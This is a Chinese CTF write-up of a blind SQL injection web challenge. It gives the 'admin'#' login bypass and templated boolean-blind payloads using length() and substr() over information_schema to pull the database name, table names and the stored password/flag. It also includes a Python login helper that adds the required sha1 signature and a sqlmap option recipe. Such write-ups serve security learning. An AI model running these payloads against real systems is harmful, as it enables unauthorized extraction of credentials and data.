 ```yaml
---
layout: post
title:  "布尔盲注的白给式利用"
date:   2019-05-29
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Ctf,Web]
tags: [sql,web]
icon: icon-html
---
```


# I Am Blind~~（我，星际玩家）~~

题目链接: [http://pwn1.blue-whale.me:23335/](http://pwn1.blue-whale.me:23335/)

这题目都把盲注两个字写脸上了

先`admin'#`试试

发现显示`success login, and flag is your password.`

得，一位一位试就完事了

## 手工注入或脚本注入

> 纯手工

- 库名获取

先把库名长度爆出来

```mysql
admin' and length(database()) = $长度
```

一个一个地试他娘的，试的时候直接对10二分了，还是挺快的

这里得到了库名长度

然后就需要一位一位地获取库名的字符

```mysql
admin' and substr(database(), $位置, 1) = $字符
```

二分比较快wdnmd

- 表名获取

~~我会告诉你库名实际上没什么用？~~

同理先把表名长度爆出来

```mysql
admin' and (select length(table_name) from information_schema.tables where table_schema = database() limit 0,1) = $长度#
```

同理

```mysql
admin' and substr((select table_name from information_schema.tables where table_schema = database() limit 0, 1), $位置, 1) = $字符#
```

- 字段名获取

盲猜`username`和`password`

试一试还真是

- flag获取

一位一位试就是了

```mysql
admin' and substr((select password from $表名 order by id limit 0, 1), $位置, 1) = $字符#
```

反正前五位`flag{`和最后一位`}`是固定的

> 脚本注入

什么你想要脚本？自己慢慢写吧

网上找的login函数

需要注意的是此处POST方法使用了`signature`来进行*sha1*校验，别的就没啥注意事项了

```python
def login(_username, _password):
    url = "http://pwn1.blue-whale.me:23335/index.php"
    data = {
        "username": _username,
        "password": _password,
        "signature": hashlib.sha1(_username + _password).hexdigest()
    }
    response = requests.post(url, data)
    content = response.content
    #print content
    if "success" in content:
        return True
    else:
        return False
```

## SQLMAP

> sqlmap用法

- -u 后接url，指定访问的地址

- \-\-data

  后面接参数表，用于POST方法

- \-\-eval

  设定由某个参数或多个参数决定的变量，如本题**signature**

```shell
--eval="import hashlib;signature=hashlib.sha1(username+password).hexdigest()"
```

- \-\-current-db

  获取当前数据库名

- \-\-tables

  获取数据表名

- \-\-columns

  获取字段名

- \-\-dump

  获取字段值

- -D

  设定数据库名

- -T

  设定数据表名

- -C

  设定字段名

**综上，此题白给**

